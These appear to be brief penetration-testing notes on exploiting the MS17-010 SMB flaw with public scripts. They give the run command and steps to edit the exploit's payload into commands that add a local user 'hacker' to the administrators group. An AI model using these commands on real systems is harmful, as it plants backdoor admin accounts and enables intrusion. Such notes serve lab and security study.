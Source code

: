 # named pipes

https://github.com/3ndG4me/AutoBlue-MS17-010

eternal_checker.py

# zzz_exploit

https://github.com/helviojunior/MS17-010.git

## modifications

change username and password in beginning of the exploit

change payload on line 975 and run each command after seperatly:

    #service_exec(conn, r'cmd /c net user /add hacker mypassword123')
    #service_exec(conn, r'cmd /c net localgroup administrators hacker /add')

## run

python2 zzz_exploit.py "$rhost" 445 samr

## errors

you can ignore erros like these: 

SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.

